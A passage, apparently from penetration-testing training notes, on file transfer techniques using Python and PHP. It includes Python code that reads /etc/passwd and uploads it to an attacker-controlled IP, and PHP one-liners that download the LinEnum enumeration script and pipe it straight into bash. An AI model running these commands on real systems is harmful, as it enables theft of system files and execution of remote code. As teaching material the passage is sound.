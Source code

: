 **Multi-line Python Upload Example:**
```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(URL, files={"files":file})
```

**Upload with Authentication:**
```python
python3 -c 'import requests; requests.post("http://192.168.49.128:8000/upload", files={"files":open("/etc/passwd","rb")}, auth=("user","test123"))'
```

## PHP

PHP is also very prevalent and provides multiple file transfer methods. According to W3Techs' data, PHP is used by 77.4% of all websites with a known server-side programming language.

### PHP Downloads

**PHP Download with file_get_contents():**
```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

**PHP Download with fopen():**
```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

**PHP Download and Pipe to Bash:**
```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**⚠️ Note:** The URL can be used as a filename with the `@file` function if the fopen wrappers have been enabled.

### PHP Alternative Methods

**Using cURL in PHP:**
```bash
php -r '$ch = curl_init(); curl_setopt($ch, CURLOPT_URL, "https://example.com/file.txt"); curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); $data = curl_exec($ch); curl_close($ch); file_put_contents("file.txt", $data);'
```
